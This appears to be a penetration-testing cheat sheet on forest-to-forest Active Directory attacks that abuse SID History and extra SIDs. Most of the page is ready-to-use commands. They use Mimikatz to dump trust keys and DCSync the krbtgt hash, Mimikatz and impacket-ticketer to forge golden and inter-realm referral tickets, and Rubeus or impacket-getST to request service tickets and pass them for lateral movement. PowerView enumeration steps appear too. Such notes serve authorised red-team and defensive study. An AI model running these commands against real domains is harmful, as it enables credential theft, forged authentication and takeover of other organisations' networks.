 # Forest to Forest - Extra SID (SID History \ TREAT_AS_EXTERNAL)

## SID History Attacks

If there is no SID filtering, it is possible to specify any privileged SID of the target forest in the SID History field. Otherwise, with partial filtering, an RID > 1000 must be indicated.

### 1) Get the trust key

    Invoke-Mimikatz -Command '"lsadump::trust /patch"'

OR

    Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

### 2) If no filtering: forge a referral ticket or an inter-realm Golden Ticket and request for a ST

##### Referral ticket with the Trust Key

    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<current_domain_SID> /sids:<target_domain_SID>-<RID> /rc4:<key> /service:krbtgt /target:targetDomain.local /ticket:trust_forest.kirbi"'

##### Inter-realm Golden Ticket with krbtgt, with pass-the-ticket

    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<current_domain_SID> /sids:<target_domain_SID>-<RID> /krbtgt:<krbtgt_hash> /ptt"'

##### For a specific user different than the Administrator (not RID 500)

    Invoke-Mimikatz -Command '"kerberos::golden /user:user1 /domain:domain.local /sid:<current_domain_SID> /id:<user1_RID> /rc4:<trust_key> /service:krbtgt /target:targetDomain.local /ticket:trust_forest.kirbi"'

    ./Rubeus.exe asktgs /ticket:trust_forest.kirbi /service:cifs/dc.targetDomain.local /dc:dc.targetDomain.local /ptt

### 3) If there is SID filtering, same thing as above but with RID > 1000 (for example, Exchange related groups are sometimes highly privileged, and always with a RID > 1000). Otherwise, get the foreignSecurityPrincipal. These users of the current domain are also members of the trusting forest, and they can be members of interesting groups:

##### These SIDs are members of the target domain

    Get-DomainObject -Domain targetDomain.local | ? {$_.objectclass -match "foreignSecurityPrincipal"}

##### The found SIDs can be search in the current forest

    Get-DomainObject |? {$_.objectSid -match "<SID>"}

Then, it is possible to forge a referral ticket for this user and access the target forest with its privileges.


#### 1) Golden Ticket

    Get-DomainSID -Domain DOMAIN (Powerview)

    Get-DomainSID -Domain TARGET_DOMAIN (Powerview)

    Get-DomainGroupMember -Identity "GROUP" -Domain TARGET_DOMAIN (SID filtering, Find group with SID > 1000) (Powerview)

    impacket-ticketer -nthash KRBTGT_HASH -domain-sid FROM_DOMAIN_SID -domain FROM_DOMAIN -extra-sid TO_DOMAIN-GROUP_ID goldenuser (Group ID must be > 1000)

## OR 

    mimikatz lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt

    mimikatz kerberos::golden /user:Administrator /krbtgt:KRBTGT_HASH /domain:DOMAIN /sid:USER_SID /sids:ROOT_DOMAIN_SID-GROUP_SID_SUP_1000 /ptt

#### 2) Trust Ticket

### Get the trust ticket in the ntds (TARGET_DOMAIN$)

    impacket-ticketer -nthash TRUST_KEY -domain-sid FROM_DOMAIN_SID -domain FROM_DOMAIN -extra-sid TO_DOMAIN-GROUP_ID -spn krbtgt/TO_DOMAIN trustuser (Group id must be > 1000)

    impacket-getST -k -no-pass -spn cifs/DC_FQDN PARENT_DOMAIN/trustfakeuser@PARENT_DOMAIN -debug

### With both these attacks we perform lateral movement with Pass-the-Ticket
